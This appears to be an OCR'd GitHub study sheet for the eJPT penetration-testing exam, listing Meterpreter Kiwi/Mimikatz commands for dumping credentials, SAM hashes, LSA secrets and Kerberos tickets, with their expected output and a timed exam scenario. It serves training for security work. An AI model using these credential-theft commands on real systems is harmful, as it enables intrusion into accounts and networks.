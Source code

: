 ### **🏆 Commands You MUST Know for eJPT:**

#### **Level 1 - You WILL See This (100% Chance):**
```bash
# Load Kiwi extension after getting meterpreter
load kiwi
# Expected: Success message with Mimikatz banner

# Extract all available credentials
creds_all
# Expected: Tables showing usernames, domains, and NTLM hashes

# Check what privileges we have
getuid
# Expected: NT AUTHORITY\SYSTEM or Administrator level
```

#### **Level 2 - Very Likely (85% Chance):**
```bash
# Migrate to security process for stability
migrate -N lsass.exe
# Expected: Migration completed successfully

# Dump SAM database for local accounts
lsa_dump_sam
# Expected: Local user accounts with RIDs and hashes

# Extract LSA secrets for additional information
lsa_dump_secrets
# Expected: System encryption keys and policy information
```

#### **Level 3 - Possible (60% Chance):**
```bash
# Extract specific credential types
creds_msv
creds_kerberos
creds_livessp
# Expected: Detailed authentication data by type

# List and manipulate Kerberos tickets
kerberos_ticket_list
kerberos_ticket_purge
# Expected: Current ticket information and management
```

### **🎯 Common eJPT Exam Scenarios:**

#### **Scenario 1: Basic Credential Extraction**
**Given:** Meterpreter session on Windows target
**Your Job:** Extract all user credentials and find the Administrator hash
**Time Limit:** 5-7 minutes

